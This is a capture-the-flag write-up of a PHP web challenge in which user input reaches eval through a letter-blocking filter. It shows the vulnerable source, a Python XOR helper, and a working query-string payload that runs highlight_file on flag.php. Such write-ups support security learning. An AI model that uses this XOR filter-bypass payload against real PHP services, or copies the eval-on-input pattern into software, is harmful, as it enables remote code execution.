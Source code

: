 # Web Warm-up

### Challenge

```
Warm up! Can you break all the tasks? I'll pray for you!

read flag.php
Link
```
We're given a link that redirects to `http://69.90.132.196:5003/?view-source`

which show this code :

```php

<?php
if(isset($_GET['view-source'])){
    highlight_file(__FILE__);
    die();
}

if(isset($_GET['warmup'])){
    if(!preg_match('/[A-Za-z]/is',$_GET['warmup']) && strlen($_GET['warmup']) <= 60) {
    eval($_GET['warmup']);
    }else{
        die("Try harder!");
    }
}else{
    die("No param given");
}

```
as we can see, if we pass a paramaeter `warmup` it can get eval'd, but we have restrictions.

```php
preg_match('/[A-Za-z]/is',$_GET['warmup'])
```
This means that we can't use uppercase or lowercase letters. So this leaves us with only numbers and special characters.

```php
strlen($_GET['warmup']) <= 60
```
This restrict our input to only `60` character.

So after a lot of reading, we can bypass the `preg_match` with xor.In PHP, when two variables are XORed, the string is first converted to an ASCII value, then the ASCII value is converted to binary and then XORed, XOR is completed, and the result is converted from binary. Become an ASCII value and convert the ASCII value to a string.

For example if we take `{` and xor it with `<` we get the character `G`. Ok, now we can write a script that will find the two characters needed to be xored to get an ASCII string.

This script can do the job.
```Python

from pwn import *

printable = "'0123456789!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ " # Those are the only characters allowed

def find(text):
    key = ""
    inp = ""
    for c in text:
        for i in printable:
            a = xor(c, i)
            if a in printable:
                inp += a
                key += i
                break
    return key, inp
```
For example, if we want `"GET"`, we need to xor `~}\`` with `984`.

Okay, now, we know that our input is limited to 60 chars. So we will read a variable through another parameter which will
contain the functions needed to read the file `flag.php`

So to get a parameter we use `$_GET[name]` where `name` is the name of the parameter.

So for example, we want to do this :
```
http://69.90.132.196:5003/?warmup=$_GET['func']($_GET['name'])&func=highlight_file&name=flag.php
```

but since we can't pass our URL with letters. We will convert each part.
So the get the `GET` we can asign it to a variable in order to reuse it.
`GET == "{{{"^ "<>/"`

```
http://69.90.132.196:5003/?warmup=$_=_"`{{{"^ "?<>/"
```
This creates a variable `_` that takes the value `_GET`. Now, if we add
```
${$_}["_"](${$_}["__"](${$_}["___"]))
```
Since `$_` is `_GET`. This is equivalent to 
```
$_GET["_"]($_GET["__"])
```
where `"_"` and `"__"` are the name of the parameters.

Now we have our query string, and we can pass it on.

```

http://69.90.132.196:5003/?warmup=$_="`{{{"^"?<>/";${$_}["_"](${$_}["__"]);&_=highlight_file&__=flag.php
```

## flag

ASIS{w4rm_up_y0ur_br4in}
